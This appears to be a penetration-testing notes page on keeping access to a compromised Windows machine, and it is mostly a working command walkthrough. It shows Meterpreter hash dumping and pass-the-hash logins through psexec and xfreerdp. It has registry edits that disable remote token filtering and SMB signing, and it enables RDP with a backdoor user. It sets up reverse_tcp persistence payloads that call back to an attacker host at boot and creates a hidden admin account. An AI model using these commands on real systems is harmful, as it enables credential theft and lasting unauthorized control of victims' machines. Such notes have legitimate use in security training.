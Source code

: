 # k - Persistence

### Maintaining Access

* Password Hash -> \[pass the hash or crack the hash]
* Backdoor
* New Users

Persistence ensures we will be able to reconnect to the compromised machine any time we llike even if the machine is rebooted or patched. To do so, we can try to gather credentials to access remote services such as RDP, SSH, VNC, VPN, create backdoors, new users, edit current services or install new vulnerabilities on the Victim.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# asuming we already gained NT AUTHORITY on the victim system.
# 1st thing to do is to make the current session stable, ie by migrating to a more stable process.
meterpreter > ps # list all running prrocesses.
meterpreter > getpid # displays our current running process ID.
meterpreter > migrate <PID> # migrate to either svchost.exe or explorer.exe.

# 2nd thing is to retrieve hashes.
meterpreter > hashdump # dumps all hashes.
# or use another module to do this...
meterpreter > run post/windows/gather/smart_hashdump # dumps all hashes.
# if experiencing error, migrate to another process and try again.

# we can try the pass-the-hash method to login.
msf > use exploit/windows/smb/psexec
msf > set RHOST victim ip
msf > set SMBUSER <username>
msf > set SMBPASS <paste the hash>
msf > run # sometime login will fail because we don't have access to administrative shares, since we already have NT AUTHORITY, we just need to set a registry entry and the module should work.

# enter the cmd:
reg setval -k 'HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System' -v LocalAccountTokenFIlterPolicy -t REG_DWORD -d 1

# or 
#========================================================================
cmd> reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f

cmd> reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters" /v RequireSecuritySignature /t REG_DWORD /d 0 /f
#========================================================================

# copy and pase into the Meterpreter session.
# the module should work now, but if the user changes his/her password we loose our access.

# 3rd thing is we can create a new user and enable RDP if not enabled.
# check if RDP is enabled or not, in kali terminal:
xfreerdp /v:192.168.0.11 # if no response, then RDP is not enabled.

meterpreter > run getgui # displays help menu.
meterpreter > run -e -u atk -p atk # enable rdp and create new user.

# check again.
xfreerdp /v:192.168.0.11 /u:atk /p:atk # login with RDP.

# Pass the NTLM hash attack using xfreerdp
# if we obtain the NTLM hash, we can use it to login RDP using xfreerdp:
xfreerdp /u:admin /d:domain_name /pth:<ntlm_hash> /v:$ip

# 4th
# installing a Backdoor on the target.
msf > use exploit/windows/local/persistence
msf >  set SESSION
msf > set STARTUP SYSTEM # since we have system privs.
msf > set payload windows/meterpreter/reverse_tcp
msf > set LHOST, LPORT 80 
msf > run 
# anytime we want to connect back to this machine, we just set up a listener with same parameters passed (use multi/handler).
# Note this persistence will continue even after the victim pc is rebooted.
# or you can do this through meterpreter
meterpreter > run persistence -A -X -i 5 -p 8080 -r $ip # creates a backdoor, uploads it to victim, and set the registry keys to start it at boot.

# 5th 
# Mannual Persistence on the victim machine.
# a 
# Create the payload with msfvenom.
msfvenom -p windows/meterpreter/reverse_tcp -f vbs ......................
# upload to victim.
meterpreter > upload exploit.exe C:\Windows
# edit the registry keys
meterpreter > reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -d "C:\Windows\exploit.exe" -v exploit.exe
```
{% endcode %}

### Create new user

Another way to establish persistence is to create a new user and add to the administrator group.

```
cmd> net user hacker /add # add new user hacker.
cmd> net localgroup "Administrators" hacker /add # add new user to local admin group.
```
